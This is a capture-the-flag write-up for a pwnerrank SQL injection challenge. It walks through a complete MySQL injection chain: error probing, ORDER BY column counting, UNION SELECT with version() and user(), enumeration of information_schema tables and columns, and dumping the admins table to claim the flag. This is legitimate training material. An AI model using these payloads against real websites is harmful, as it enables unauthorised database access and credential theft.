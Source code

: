 #Writeups for pwnerrank challenges

##SQL injection - Dump Database https://www.pwnerrank.com/tasks/sql-injection-dump-database

Side note: This challenge took somewhere around 2 hours to solve, I was not familiar with many of the SQLi techniques required to solve this challenge but knew where to look to learn.
To anyone learning and stuck just Try Harder! SQL injection cheat sheets are you friend, pay attention to details in the syntax! Before 'cheating' look up some of the talk by Joe McCray on SQL injection (Defcon 17 talk will help with this challenge). Incredibly valuable stuff and really fun to watch.  He explains his thought process going through SQLi.  (Keep in mind his Defcon17 talk uses MS SQL not MySQL so there will be syntax differences)

"DEF CON 17 - Joseph McCray - Advanced SQL Injection"
https://www.youtube.com/watch?v=-AkUutmXwUI


###Objective
Steal the admin password

###Verifying SQL Injection
First step was to learn how the web application works, then try to verify SQL injection.  The page features a single text form that is used to search the small database.  The text form searches the "Book" and "Author" fields but not the "Price field".

On to SQL injection. I tried the following basic SQL injections too see if I could learn some information about what database backend was in use.

```a'or 1=1
a" or 1=1
a' or '1'='1
a" or '1'='1
```

The following next injection I tried `a' or '1'='1'` generated a MySQL Syntax error:
```DB Error, could not query the database MySQL Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1'='1'%'' at line 1```


Time to add a MySQL comment `#` or `-- ` to the end and see if it works. `a' or '1'='1'#` Success! No error is generated, and all the contents are displayed.
![pic1]
[pic1]: https://github.com/Freakazoidile/ctf_challenges/tree/master/pwnerrank/Web Exploitation/sql-injection-dump-database-1.png

The fact that all the records are shown and no error is generated indicates `or 1=1` was executed.

###SQL Query
Now that SQL injection is verified and I know the database backend in use, MySQL.  Now I can create what I think is the SQL query in use to build on and understand how more queries will work.

Combining the knowledge of the application functionality (searching the Book and the Author field) the SQL query probably looks something like:
`SELECT book, author, price from books where book like '$userinput' or author like '$userinput';`

###Determining Amount of Columns and Collection More Information
The next step is to determine the amount of fields and gather some general information like the MySQL version or the user running the database.

The database has atleast 3 columns. So using `ORDER BY` we can being enumuration. First lets verify the `ORDER BY` query will work.

```' order by 1#```

Great it works, let's see how many columns there is.

```' order by 3#```
3 columns, works as expected.

```' order by 4#```
4 columns, no errors yet.

```' order by 5#```
ERROR! Number of columns in the current table is 4.


Moving forward it's time to check to see what columns are being printed to the screen.

```' or 1=1 union all select 1,2,3,4#```

The above query outputs:
![pic2]
[pic2]: https://github.com/Freakazoidile/ctf_challenges/tree/master/pwnerrank/Web Exploitation/sql-injection-dump-database-2.png


So the paramters 2, 3 and 4 get printed to screen, so we can change these to database columns and gather information from.

First check for the MySQL version and user.

```' or 1=1 union all select 1,version(),user(),4#```

![pic3]
[pic3]: https://github.com/Freakazoidile/ctf_challenges/tree/master/pwnerrank/Web Exploitation/sql-injection-dump-database-3.png
As can be seen version 5.5.53 of MySQL is likely in use and what looks like a debian operating system 'deb' version 8u1? Searching `5.5.53-0+deb8u1` on Google reveals this is correct.


###Getting the flag!
Now that we can use SQL union queries to get information we can find the admin password.  First step is to find the right table. Time to use the `information_schema` table (hopefully we have access to read it) to see what other tables and columns exist.

```' or 1=1 union all select 1,table_name,3,4 from information_schema.tables#```
This reveals alot of tables, 42 to be exact. The last two tables are `admin` and `books`. Lets see what columns are in the `admin` table.

```' or 1=1 union all select 1,column_name,3,4 from information_schema.columns where table_name like 'admins'#```

Results show the following columns are present in the admin table: `id`, `username`, `password`, `email`.
The goal is to get the `admin` password, lets try and dump the passwords from the admin table.

```' or 1=1 union all select 1, username, 3, 4 from admins#```

Success, the flag has been claimed! Looks like there is only one entry in the admins database. 

`pwnerrank{t0mcaTTacm0t}`






